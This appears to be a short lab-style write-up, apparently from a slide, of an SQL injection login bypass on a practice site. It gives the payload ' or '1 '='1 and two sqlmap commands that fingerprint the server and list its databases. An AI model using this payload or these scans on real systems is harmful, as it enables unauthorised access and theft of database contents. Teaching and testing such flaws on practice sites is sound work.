

# Steps to reproduce:-
The login page can be bypassed by putting ' or '1 '='1 in username and password field.
In order to access the details of the complete database attacker can open the sqlmap software and run a scan with following commands:
The below command gives the information about the database and the operating system used on the server side:
sudo sqlmap -u "http://testasp.vulnweb.com/showforum.asp?id=0"
The below command lists all the databases present in the DBMS present at the server side.
sudo sqlmap -u "http://testasp.vulnweb.com/showforum.asp?id=0" --dbs